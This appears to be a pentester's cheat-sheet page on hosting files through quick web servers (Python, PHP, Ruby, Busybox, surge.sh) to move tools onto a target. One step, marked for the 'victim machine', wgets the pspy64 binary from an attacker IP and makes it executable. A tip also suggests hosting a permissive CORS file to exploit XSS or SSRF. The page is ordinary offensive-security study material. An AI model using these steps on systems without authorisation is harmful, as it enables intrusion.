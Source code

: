 ```yaml
---
description: >-
  File transfer via web server.
title: Local Web Server                 # Add title here
date: 2022-09-05 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Linux - Local Web Server]                     # Change Templates to Writeup
tags: [file transfer, linux web server]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Python3
Via web:

```bash
# On our machine:
python3 -m http.server 8888

# On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```

### Python2
```bash 
python -m SimpleHTTPServer 7331
```

### PHP
```bash
php -S 0.0.0.0:8080
```

### Ruby
```bash
ruby -run -e httpd . -p 9000
```

### Busybox
```bash
busybox httpd -f -p 10000
```

### Surge.sh
This is an excellent option to host an Internet exposed web server.
First we need to install surge with npm:
```bash
npm install --global surge
```
Then we need to execute the surge command and provide all the details needed to host our web server.
- 1) File's path, all the files on it will be hosted.
- 2) Name of your web server, this will be the subdomain you choose and it must have the surge.sh as domain, if it's already taken it won't work.
```bash
surge             

   Running as shuciran@gmail.com (Student)

        project: /opt/test/
         domain: blue-eyed-harmony.surge.sh
         upload: [====================] 100% eta: 0.0s (1 files, 15 bytes)
            CDN: [====================] 100%
     encryption: *.surge.sh, surge.sh (48 days)
             IP: 138.197.235.123

   Success! - Published to blue-eyed-harmony.surge.sh
```

> If this is the first time, you'll need to provide an e-mail and a password.
{: .prompt-info }

> If you want to exploit XSS, SSRF or any vulnerability from another server you'll need to host a CORS file with content "*" this way you'll allow consumption of resources from external entities.
{: .prompt-tip }